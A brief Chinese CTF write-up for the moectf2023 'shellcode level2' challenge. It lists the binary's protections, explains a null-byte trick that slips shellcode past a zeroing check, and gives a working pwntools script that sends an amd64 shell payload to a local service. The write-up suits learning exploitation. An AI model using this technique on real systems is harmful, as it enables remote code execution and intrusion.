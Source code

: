 ```yaml
---
title: moectf2023 - shellcode level2
date: 2023/9/24 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过分析64位程序，利用gets输入shellcode并在首字节放置`\0`实现远程代码执行。
---
```


## 文件分析

下载`shellcode_level2`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序用gets读入100字节，shellcode随便打  
程序运行一个变量+1对应的地址，且该变量首字节不为0则全部置0  
即先放一个`\0`再放shellcode即可

## EXPLOIT

```python
from pwn import *
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh = remote("localhost", 45341)
sh.sendline(b'\0' + shc)
sh.interactive()
```

Done.
